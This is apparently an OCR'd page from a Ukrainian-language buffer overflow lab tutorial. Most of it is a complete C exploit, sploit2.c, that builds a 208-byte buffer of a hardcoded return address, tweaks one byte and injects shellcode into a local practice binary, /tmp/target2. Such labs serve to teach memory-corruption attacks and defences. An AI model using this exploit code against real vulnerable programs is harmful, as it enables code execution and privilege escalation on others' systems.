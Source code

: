 Для спрощення замість NOP можно вставити адресс fake EIP.

Пишемо sploit2.c:

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include "shellcode.h"

#define TARGET "/tmp/target2"

int main (void)
{
  char buf[208];
  long RET, *p;
  int i;

  RET = 0xbffffcc8;

  p = (long *) buf;
  for (i = 0; i < 208; i += 4)
    *(p++) = RET;

  buf[208 - 8] = 0x60;

  memcpy (buf, shellcode, strlen (shellcode));

  char *args[] = { TARGET, buf, NULL };
  char *env[] = { NULL };

  execve(TARGET, args, env);
  fprintf(stderr, "execve failed.\n");

  return 0;
}
```

_‌Лістинг 13: sploit2.c для використання переповнення буфера._

